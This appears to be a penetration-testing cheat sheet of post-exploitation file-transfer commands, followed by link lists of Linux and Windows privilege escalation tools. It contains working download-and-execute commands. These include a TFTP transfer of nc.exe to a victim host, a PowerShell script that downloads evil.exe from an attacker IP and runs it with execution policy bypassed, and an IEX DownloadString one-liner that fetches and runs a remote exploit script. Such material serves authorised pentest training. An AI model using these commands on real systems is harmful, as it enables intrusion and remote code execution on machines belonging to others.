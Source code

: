 # Post Exploitation

## **File Transfers**

- TFTP
  ```bash
    kali@kali:~# mkdir /tftp
    kali@kali:~# atftpd --daemon --port 69 /tftp
    kali@kali:~# cp /usr/share/windows-binaries/nc.exe /tftp/
    
    C:\Users\Bob>tftp -i 10.11.0.5 get nc.exe
    ```
- PowerShell
  ```bash
    C:\Users\Bob> echo $storageDir = $pwd > wget.ps1
    C:\Users\Bob> echo $webclient = New-Object System.Net.WebClient >>wget.ps1
    C:\Users\Bob> echo $url = "http://10.11.0.5/evil.exe" >>wget.ps1
    C:\Users\Bob> echo $file = "new-exploit.exe" >>wget.ps1
    C:\Users\Bob> echo $webclient.DownloadFile($url,$file) >>wget.ps1
    #Finally we run the downloaded script
    C:\Users\Bob> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
  ```
  - Download and execute in PowerShell
    ```ps1
      powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.23/exploit.ps1');
    ```
- HTTP Server with Python 
  ```bash
    python -m SimpleHTTPServer [PORT] 
  ```
  
  
## **Linux Privilege Escalation**

- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [Linux Smart Enum](https://github.com/diego-treitos/linux-smart-enumeration)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [BeRoot](https://github.com/AlessandroZ/BeRoot)
- [LinuxPrivChecker](https://github.com/sleventyeleven/linuxprivchecker)
- [Unix Privesc Check](https://github.com/pentestmonkey/unix-privesc-check)
- [Privilage Escalation through sudo](https://github.com/TH3xACE/SUDO_KILLER)

## **Windows Privilege Escalation**

- [PowerSploit's Power Up](https://github.com/PowerShellMafia/PowerSploit)
- [Watson](https://github.com/rasta-mouse/Watson)
- [Sherlock](https://github.com/rasta-mouse/Sherlock)
- [BeRoot](https://github.com/AlessandroZ/BeRoot)
- [Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)
- [Windows Privesc Check](https://github.com/pentestmonkey/windows-privesc-check)
- [Windows Exploits](https://github.com/abatchy17/WindowsExploits)
- [Windows Enum](https://github.com/absolomb/WindowsEnum)
- [SeatBelt](https://github.com/GhostPack/Seatbelt)
- [Powerless](https://github.com/M4ximuss/Powerless)
- [JAWS](https://github.com/411Hall/JAWS)
- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe)
- [Windows Exploit Suggester](https://github.com/bitsadmin/wesng)
- [Privesc Check](https://github.com/itm4n/PrivescCheck)
